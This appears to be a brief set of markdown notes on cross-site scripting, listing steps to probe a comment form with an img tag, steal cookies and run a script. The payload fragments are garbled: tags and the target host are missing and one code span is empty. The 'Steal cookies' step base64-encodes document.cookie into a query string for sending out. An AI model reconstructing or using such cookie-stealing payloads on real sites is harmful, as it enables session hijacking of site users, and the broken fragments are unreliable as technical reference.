


# XSS

## Reflected

## Stored

## DOM-based

1. Check if the form is vulnerable to **XSS** by adding an **img** tag in the comment section.
`/ping />`

2. Steal cookies
`/?cookies='+btoa(document.cookie)
/>`

3. Run script
``

